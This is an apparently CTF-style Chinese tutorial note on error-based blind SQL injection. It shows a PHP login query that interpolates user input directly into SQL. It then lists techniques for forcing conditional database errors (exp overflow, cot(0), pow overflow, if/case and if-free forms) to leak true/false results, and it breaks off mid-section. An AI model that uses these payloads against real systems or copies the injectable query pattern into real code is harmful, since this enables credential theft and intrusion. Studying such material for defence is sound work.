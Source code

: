 ```plsql
$con->query("select username, password from users where username='$username' and password='$password'");
if ($con->error) {
	die("ERROR")
} else die("查询完成");
```
整体逻辑就是要让他报错
```plsql
if( condition, 报错, 不报错)
case when (condition) then 报错 else 不报错 end
```
## 手工报错的方法
### exp(99999)
`exp(x) = e^x`
```plsql
select if((1=1), exp(99999), 0)
```
![image.png](./images/20231017_2354144067.png)
### cot(0)
```plsql
select cot(0)
```
![image.png](./images/20231017_2354159290.png)
### pow(99999, 9999999)
```plsql
select pow(99999, 9999999)
```
![image.png](./images/20231017_2354157056.png)
### 无if和case
#### exp
`exp()`有临界值，为709，超过这个值会报错<br />condition真则报错：
```sql
exp((1=1)*9999)
exp(709+(1=1))
```
condition假则报错：
```sql
exp(710-(1=2))
```
#### cot
condition真则报错